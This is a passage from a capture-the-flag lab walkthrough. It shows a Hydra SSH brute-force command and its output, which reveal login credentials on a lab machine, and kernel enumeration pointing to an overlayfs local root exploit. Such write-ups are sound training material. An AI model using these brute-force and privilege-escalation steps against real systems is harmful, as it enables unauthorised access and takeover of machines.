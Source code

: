### Bruteforcing SSH.

so here I tried to bruteforce all `usernames` with the `password` specified in the `Pass.txt` file and also with `rockyou.txt` wordlist but no luck so far. But then turned out that the password was the name of the file `Pass.txt` with username `overlfow`
![](/assets/troll/Screenshot from 2021-06-25 12-54-10.png)
```shell-session
┌──(elliot@kali)-[~/data/troll]
└─$ hydra -L which_one_lol.txt -p Pass.txt ssh://192.168.225.41 | tee hydra.log
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-25 12:53:57
[DATA] max 10 tasks per 1 server, overall 10 tasks, 10 login tries (l:10/p:1), ~1 try per task
[DATA] attacking ssh://192.168.225.41:22/
[22][ssh] host: 192.168.225.41   login: overflow   password: Pass.txt
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-25 12:54:01
                                                                                            
┌──(elliot@kali)-[~/data/troll]
└─$
```

Creds: `overflow:Pass.txt`

## Privilege Escalation

while enumerating the shell is being terminated, that's frustrating but bare with it. found that the host machine is using old kernel, which might be vulnerable to maybe any exploit. so here's the kernel version.

```shell-session
overflow@troll:/$ uname -a
Linux troll 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:12 UTC 2014 i686 athlon i686 GNU/Linux
```

and here we found `overlayfs` vulnerability which allows a low privileged user to gain a shell as root. here's the [exploit](https://www.exploit-db.com/exploits/37292)

```shell-session
overflow@troll:/$ cat /etc/os-release
NAME="Ubuntu"
VERSION="14.04.1 LTS, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04.1 LTS"
VERSION_ID="14.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
```
